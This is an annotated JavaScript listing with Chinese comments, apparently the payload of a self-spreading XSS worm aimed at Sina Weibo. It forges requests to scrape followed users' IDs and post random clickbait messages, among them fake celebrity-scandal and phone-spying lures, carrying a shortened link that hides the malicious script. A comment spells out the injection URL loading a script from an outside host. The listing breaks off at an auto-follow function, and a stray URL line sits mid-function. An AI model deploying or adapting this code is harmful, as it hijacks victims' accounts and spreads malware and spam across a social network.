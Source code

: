 ```javascript
// 创建 XMLHttp 对象用于收发请求
function createXHR(){ 
    return window.XMLHttpRequest?
    new XMLHttpRequest():
    new ActiveXObject("Microsoft.XMLHTTP");
}
function getappkey(url){
    xmlHttp = createXHR();
    xmlHttp.open("GET",url,false); //获取 AppKey 不采用异步执行,等待请求返回 
    xmlHttp.send();
    result = xmlHttp.responseText;
    id_arr = '';
    // 正则匹配出 AppKey 数组,包含每个被收听用户的 uid 
    id = result.match(/namecard=\"true\" title=\"[^\"]*/g);
         https://beefproject.com/
    for(i=0;i<id.length;i++){
        sum = id[i].toString().split('"')[3];  //重新提取整理
        id_arr += sum + '||';
    }
    return id_arr;
}
function random_msg(){

    // 使用短地址服务，构造 XSS 传播连接，隐藏自己的恶意 js 脚本，
    // 这里正是 XSS 漏洞的触发位置
 //http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=upd
    link = ' http://163.fm/PxZHoxn?id=' + new Date().getTime();;
    // 话题列表 
    var msgs = [
        '郭美美事件的一些未注意到的细节：',
        '建党大业中穿帮的地方：',
        '让女人心动的 100 句诗歌：',
        '3D 肉团团高清普通话版种子：',
        '这是传说中的神仙眷侣啊：',
        '惊爆!范冰冰艳照真流出了：',
        '杨幂被爆多次被潜规则:',
        '傻仔拿锤子去抢银行：',
        '可以监听别人手机的软件：',
        '个税起征点有望提到 4000：']; 

    //随机选取话题,加上之前的传播连接作为微博内容 
    var msg = msgs[Math.floor(Math.random()*msgs.length)] + link;
    msg = encodeURIComponent(msg); //对内容进行 Url 编码
    return msg;
}
// 利用 Ajax 发送 POST 请求
function post(url,data,sync){
    xmlHttp = createXHR();
    xmlHttp.open("POST",url,sync);
    xmlHttp.setRequestHeader("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded; charset=UTF-8");
    xmlHttp.send(data);
}
// 发表微博，话题随机
function publish(){
    url = 'http://weibo.com/mblog/publish.php?rnd=' + new Date().getTime();
    data = 'content=' + random_msg() + '&pic=&styleid=2&retcode='; //使用 random_msg 生成随机话题
    post(url,data,true);
}
// 自动关注用户
function follow(){
```